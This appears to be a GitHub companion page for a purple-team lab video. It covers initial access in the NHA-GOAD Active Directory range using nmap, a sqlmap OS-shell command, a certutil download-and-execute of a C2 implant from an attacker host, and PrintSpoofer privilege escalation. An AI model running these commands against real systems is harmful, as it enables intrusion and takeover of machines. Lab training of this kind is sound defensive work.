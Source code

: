 ## **05 - Initial Access - Purple Team Cyber Range with NHA-GOAD**

This GitHub page is a companion to the fifth video in our **Purple Team Cyber Range** series, where we explore how to gain **initial access** using techniques such as **SQL injection** and other offensive tactics in the **NHA-GOAD** Active Directory lab environment. The lab is designed for attack and defense exercises, providing a realistic experience for both red and blue teams.

## 📺 **Watch the Video**

**Video Title**: _05 - Initial Access - Purple Team Cyber Range with NHA-GOAD_  
[Watch the video on YouTube](https://youtu.be/bK5Tnf92O-Y) (Placeholder for video link)

## 🛠️ **Key Takeaways**

1. **Initial Recon and Access**:
    
    - We start by performing a network scan using **Nmap** to identify open ports and services on the target machines.
    - After identifying potential vulnerabilities, we exploit them using **SQL injection** to gain initial access to the system.
    
2. **SQL Injection Exploitation**:
    
    - Learn how to use **SQLMap** to automate SQL injection attacks and gain access to the target database.
    - We also demonstrate how to escalate from SQL injection to an OS shell on the target machine.
    
3. **Command and Control (C2) Setup**:
    
    - Once initial access is gained, we set up a **Sliver C2 server** to manage the compromised machines.
    - We use reverse shells and other techniques to maintain persistent access.
    
4. **Privilege Escalation**:
    
    - After gaining initial access, we escalate privileges using tools like **SweetPotato** to obtain SYSTEM-level access.
    

## 📚 **Resources**

Here are some useful resources mentioned in the video:

- [NHA-GOAD Guide](https://docs.ludus.cloud/docs/environment-guides/goad-nha): Official documentation on setting up NHA-GOAD.
- [Elastic SIEM Guide](https://docs.ludus.cloud/docs/environment-guides/elastic): Guide on integrating Elastic Security SIEM.
- [GOAD GitHub Repository](https://github.com/Orange-Cyberdefense/GOAD): Source code and more information about GOAD from Orange Cyberdefense.

## Previous Videos:

- [Video 1: How to Deploy a Cyber Range Using Ludus: NHA-GOAD for Purple Teaming & Elastic Security SIEM](https://youtu.be/cjTzWQ_Si3U)
- [Video 2: How to Connect to Ludus GOAD with Elastic Using WireGuard](https://youtu.be/fM65Mm011bg)
- [Video 3: Testing Our Lab Against Default Sliver C2 Implants - The Lab Works!](https://youtu.be/L5DtvxOriOU)
- [Video 4: How to Install Sysmon in Active Directory Lab on Ludus](https://youtu.be/bK5Tnf92O-Y)

## 🚀 **Getting Started**

## 1. **Network Scanning**

Start by scanning the network to identify live hosts and open ports:



`nmap -p- -sC -sV 10.2.10.0/24 -Pn -oA allports.nmap`

![](../../05%20Images/Pasted%20image%2020241109225509.png)

This command performs a full port scan (`-p-`), service detection (`-sV`), and saves the results in multiple formats (`-oA`).

## 2. **SQL Injection Exploitation**

Once you've identified a vulnerable web server, use SQLMap to exploit SQL injection vulnerabilities:

`sqlmap -u "http://10.3.10.32/Students?SearchString=a&orderBy=Firstname" --os-shell --batch --threads 10`

This command attempts SQL injection on the specified URL and attempts to gain an OS shell.

## 3. **Command and Control (C2) Setup**


### Upload using sql shell
```
certutil.exe -split -f -urlcache http://10.2.10.99:8080/backup.exe 

#execute backup.exe
c:\windows\tasks\backup.exe
```


## 4. **Privilege Escalation**

To escalate privileges, upload a tool like SweetPotato or PrintSpoofer:

`upload /home/kali/payloads/PrintSpoofer.exe C:\\Windows\\Tasks\\PrintSpoofer.exe 
`execute -o "C:\windows\Tasks\PrintSpoofer.exe -i -c C:\Windows\Tasks\backup.exe"`

This command runs the PrintSpoofer tool, allowing you to escalate privileges from a local user account to SYSTEM.

![](../../05%20Images/Pasted%20image%2020241109225535.png)

## ⚠️ **Disclaimer**

This project is intended for **educational purposes only**. The tools and techniques demonstrated should only be used in environments where you have explicit permission to perform penetration testing or security assessments. Unauthorized use of these tools may violate laws and regulations.

## 🔧 **Tools Used**

- **Ludus Platform**: A cloud-based platform for deploying cybersecurity labs.
- **NHA-GOAD**: A pre-configured Active Directory environment designed for attack and defense simulations.
- **SQLMap**: An open-source tool used for automating SQL injection attacks.
- **Sliver C2 Framework**: An open-source command-and-control framework used by attackers for post-exploitation tasks.
- **SweetPotato/PrintSpoofer**: Tools used for privilege escalation on Windows systems.

Thank you for visiting! Be sure to subscribe to [I.T Security Labs on YouTube](https://www.youtube.com/@ITSecurityLabs) for more tutorials and updates!